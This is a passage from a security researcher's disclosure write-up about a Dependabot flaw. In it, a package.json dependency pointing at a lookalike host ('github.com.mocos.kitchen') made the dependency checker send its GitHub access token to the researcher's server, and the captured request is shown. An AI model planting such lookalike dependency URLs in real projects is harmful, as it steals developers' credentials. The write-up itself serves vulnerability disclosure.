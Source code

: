To proof this concept, I created [a sample repository](https://github.com/tyage/dependabot-test-app) that includes following `package.json` file.

https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/package.json
```json
{
  "dependencies": {
    "package1": "git+https://github.com.mocos.kitchen/username/repo"
  }
}
```

Next, I updated the `credentials`, `repo_name` and `dependency_name` in [update-scripts.rb](https://github.com/dependabot/dependabot-script/blob/4330ff7043b6fe2bb009005e2f5b0ca9985f32f2/update-script.rb) from the official sample code so that we can run dependency checker against the sample repository I created.
When I run the script, my server - `github.com.mocos.kitchen` - received a request containing GitHub Access Token.

It means, if someone run a dependency checker against malicious repository, their GitHub Access Token will be stolen!

```
GET /username/repo.git/info/refs?service=git-upload-pack HTTP/1.0
Host: localhost:3000
Connection: close
User-Agent: dependabot-core/0.142.0 excon/0.79.0 ruby/2.6.6 (x86_64-darwin20) (+https://github.com/dependabot/dependabot-core)
Authorization: Basic eC1hY2Nlc3MtdG9rZW46Z2hw*************************************
Accept-Encoding: deflate, gzip
```

## First dive into a Dependabot server

Next, in order to try this attack in GitHub environment, I enabled Dependabot alerts in the sample repository.
We can do this by simply creating a `.github/dependabot.yml` file.

https://github.com/tyage/dependabot-test-app/blob/7f348994737bc39ab5ff443b6132f34c0c593328/.github/dependabot.yml
```yaml
---
version: 2
updates:
  - package-ecosystem: npm
    directory: "/"
    schedule:
      interval: daily
```
I successfully received a HTTP request from a Dependabot in GitHub.
But contrary to my expectation, there is no GitHub Access Token in the request.
Afterwards, it turns out that those servers are using special HTTP proxy which enalbes the bot to access target repository without GitHub Access Token.
